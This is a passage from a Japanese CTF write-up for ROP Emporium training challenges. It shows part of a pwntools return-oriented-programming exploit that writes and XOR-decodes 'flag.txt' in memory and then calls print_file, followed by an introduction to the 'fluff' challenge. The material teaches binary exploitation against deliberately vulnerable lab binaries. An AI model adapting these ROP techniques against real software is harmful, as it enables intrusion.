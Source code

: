 ```
    payload += pop_r12r13r14r15
    payload += flag
    payload += bss
    payload += dummy
    payload += dummy
    payload += mov

    # 2) decode all bytes
    payload += decode(write_address + 7)
    payload += decode(write_address + 6)
    payload += decode(write_address + 5)
    payload += decode(write_address + 4)
    payload += decode(write_address + 3)
    payload += decode(write_address + 2)
    payload += decode(write_address + 1)
    payload += decode(write_address + 0)

    # 3) read file
    payload += pop_rdi
    payload += pack(write_address)
    payload += print_file

    p.recvuntil(b'>')
    p.sendline(payload)
    p.interactive()
    return

def decode(address):
    pop_r12r13r14r15 = pack(0x0040069c)
    xor              = pack(0x00400628)
    key              = pack(0x02)
    dummy            = pack(0xdeadbeefdeadbeef)

    payload  = b''
    payload += pop_r12r13r14r15
    payload += dummy
    payload += dummy
    payload += key
    payload += pack(address)
    payload += xor
    return payload

if __name__ == '__main__':
    exploit()
```

## Challenge 6 fluff

[問題へのリンク](https://ropemporium.com/challenge/fluff.html)

問題のバイナリには`print_file`という関数がある。これは引数に取った文字列のポインタをファイルパスとして利用することで、ファイルの中身を読み取ってコンソール上に表示してくれる。そのため引数に`flag.txt`と指定したいけれどバイナリの中にその文字は見当たらない。なので一度メモリのどこかに書き込んでからそのポインタを引数として渡すようにしたい。
